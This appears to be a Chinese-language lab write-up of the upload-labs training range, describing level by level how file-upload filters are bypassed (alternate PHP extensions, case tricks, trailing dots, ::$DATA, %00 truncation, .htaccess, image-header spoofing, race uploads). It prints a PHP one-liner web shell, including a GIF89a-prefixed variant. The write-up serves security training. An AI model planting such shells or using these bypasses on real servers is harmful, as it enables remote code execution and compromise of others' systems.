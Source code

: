 # upload-lab
2. 查看源码

![image](https://user-images.githubusercontent.com/76896357/114292010-3c3c9880-9abe-11eb-92a2-03e3e6d93e70.png)

* 上传一个php文件，利用bp抓包

![image](https://user-images.githubusercontent.com/76896357/114292062-9a697b80-9abe-11eb-8b46-cc15ba5ad72f.png)

* 发现这个地方和源码有些类似，索性就改成源码的样子

![image](https://user-images.githubusercontent.com/76896357/114292083-bcfb9480-9abe-11eb-9a03-2715d212d74e.png)

* 刚好上传成功

3. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114292260-d9e49780-9abf-11eb-9a67-aff585598602.png)

黑名单虽然绕过，但没有全部绕过，尝试其他后缀

![image](https://user-images.githubusercontent.com/76896357/114292377-abb38780-9ac0-11eb-8901-500be4f1f457.png)

php3还是可以的

4. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114292501-752a3c80-9ac1-11eb-9b60-f515bb580a24.png)

.htaccess文件,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
原文链接:
  https://blog.csdn.net/qq_41381461/article/details/100990862
  
5. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114293312-a3ab1600-9ac7-11eb-8fdc-d60717f18781.png)

构建.php. .的后缀名直接上传

![image](https://user-images.githubusercontent.com/76896357/114293351-ecfb6580-9ac7-11eb-960f-9f878f0a5a44.png)

  
6. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114293148-524e5700-9ac6-11eb-881e-28deea048f1a.png)

* 各种黑名单，又多了，but，少了个大小写的绕过
* 构建.Php进行绕过

7. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114293377-3350c480-9ac8-11eb-8713-504770fab9ac.png)

构建.php 直接上传

![image](https://user-images.githubusercontent.com/76896357/114293465-c853bd80-9ac8-11eb-826e-586f3a621efd.png)


![image](https://user-images.githubusercontent.com/76896357/114293157-7c077e00-9ac6-11eb-82d3-f7c4184cf647.png)

上传成功


8. 查看源码，没有去掉小数点

![image](https://user-images.githubusercontent.com/76896357/114297735-f515ce00-9ae4-11eb-8ea2-43ed44c826a2.png)

直接构建.php.根据windows会自动去掉后缀名的.

![image](https://user-images.githubusercontent.com/76896357/114297786-4cb43980-9ae5-11eb-8192-9794013013ed.png)

9. 查看源码

![image](https://user-images.githubusercontent.com/76896357/114297808-66558100-9ae5-11eb-935a-8210900e361c.png)

* 忽略了::$DATA操作
* 直接构造.php::$DATA

10. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114297869-c0564680-9ae5-11eb-9175-034f2ab2af30.png)

这里可以让文件的后缀名抵消那些操作，最后剩下.php

比如构建 .php. .

![image](https://user-images.githubusercontent.com/76896357/114297900-eed42180-9ae5-11eb-9760-a66f94062e29.png)

上传成功

11. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114297943-4d999b00-9ae6-11eb-83dc-5ac07316a4fe.png)

* 用了下%00将php隐藏起来

![image](https://user-images.githubusercontent.com/76896357/114298064-019b2600-9ae7-11eb-997e-b4c527556ec7.png)

上传成功

12. 查看源代码

* 采用了Get方式传参数,可以利用%00，来上传php文件

![image](https://user-images.githubusercontent.com/76896357/115813096-236ca500-a425-11eb-9b59-03402c717734.png)

![image](https://user-images.githubusercontent.com/76896357/115813195-52831680-a425-11eb-919c-6e12998b439d.png)


14. 文件头检测绕过

![image](https://user-images.githubusercontent.com/76896357/115815138-ff12c780-a428-11eb-9362-51a1cf985d26.png)

很显然，这道题检测了文件头

只需要把php一句话加在图片文件里面即可


## 绕过的一些方法

* 服务端校验--白名单

- 配合Apache的解析缺陷 

Apache的解析特性:会从后面开始检查后缀，按最后一个后缀开始，找到合法的后缀进行解析

比如说：一段包含<?php @eval($_POST['cmd']);?>的文件，后缀名是.php.jpg,在打开文件的时候，Apache会解析php代码


* 服务端校验--内容头的校验

函数：

getimagesize

![image](https://user-images.githubusercontent.com/76896357/115867805-2049d700-a46e-11eb-88da-411f9b5fe10d.png)


![image](https://user-images.githubusercontent.com/76896357/115867855-2f308980-a46e-11eb-92b8-479efeeaf7e6.png)


![image](https://user-images.githubusercontent.com/76896357/115867889-38b9f180-a46e-11eb-9020-6819f5bc0dca.png)


比如说GIF

```
GIF89a
<?php @eval($_POST['cmd']);?>

```

* 竞争上传

开启bp，一边用bp上传文件，一边用bp访问文件，

主要是趁代码不注意赶紧访问！！！！




* 日志文件

![image](https://user-images.githubusercontent.com/76896357/115872157-1034f600-a474-11eb-985c-f604bdc2c5fd.png)


* 系统环境

![image](https://user-images.githubusercontent.com/76896357/115872241-280c7a00-a474-11eb-949f-4e810b073f10.png)

* session

![image](https://user-images.githubusercontent.com/76896357/115872304-3b1f4a00-a474-11eb-9a2e-60f130b130d1.png)

session.upload_progress.enabled这个参数在php.ini默认开启，需要手动配置off，如果不是off，就会在上传的过程中生成上传进度的文件，他的存储路径可以在phpinfo(),中找到












